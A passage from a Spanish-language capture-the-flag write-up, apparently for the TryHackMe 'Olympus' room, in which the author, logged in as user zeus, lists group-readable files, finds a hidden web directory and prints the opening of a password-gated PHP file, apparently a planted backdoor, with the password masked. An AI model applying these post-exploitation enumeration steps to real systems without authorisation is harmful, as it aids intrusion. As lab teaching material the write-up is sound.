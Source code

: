 ```console
/var/www/olympus.thm/public_html/~webmaster/search.php
/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/index.html
/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php
/var/crash/_usr_bin_cp-utils.1000.crash
/proc/1165/task/1165/fdinfo/0
/proc/1165/task/1165/fdinfo/1
[...]
zeus@olympus:~$ 
```

Un listado de los ficheros a los que tiene acceso el grupo de *zeus* en el que hay dos que nos llaman la atención.

```
/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/index.html
/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php
```

Prestar atención a que estos ficheros no cuelgan de <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">/var/www/olympus.thm/public_html/</code>&nbsp;&nbsp;sino de <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">/var/www/html/</code>&nbsp;&nbsp;con lo que deberemos acceder a ellos directamente por IP.

Cargamos en un navegador la URL

```
http://10.10.129.191/0aB44fdS3eDnLkpsz3deGv8TttR4sc/index.html
```

Nada, ni tirando del código fuente. Probamos con la siguiente

```
http://10.10.129.191/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php
```

Y nos pinta esto

![](/assets/posts/20220804/img09.png)

Echamos un veo al código fuente

```
<form name="auth" method="POST">Password: <input type="password" name="password" /></form>
```

Lo espartano del código HTML nos da dos pistas:

* El propio fichero es el target del formulario dado que no hay atributo *action*

* Se envía directamente, sin ninguna función js que controle el contenido del input *"password"*, con lo que es probable que esa validación la haga el propio fichero en el lado servidor.

Si el propio fichero *VIGQFQFMYOST.php* es el encargado de gestionar la request POST, nos interesa conocer su contenido.

```console
zeus@olympus:~$ cd /var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ ls -la
total 12
drwxrwx--x 2 root     zeus     4096 Jul 15 20:55 .
drwxr-xr-x 3 www-data www-data 4096 May  1 09:01 ..
-rwxr-xr-x 1 root     zeus        0 Apr 14 09:54 index.html
-rwxr-xr-x 1 root     zeus     1589 Jul 15 20:55 VIGQFQFMYOST.php
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ cat VIGQFQFMYOST.php 
<?php
$pass = "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

```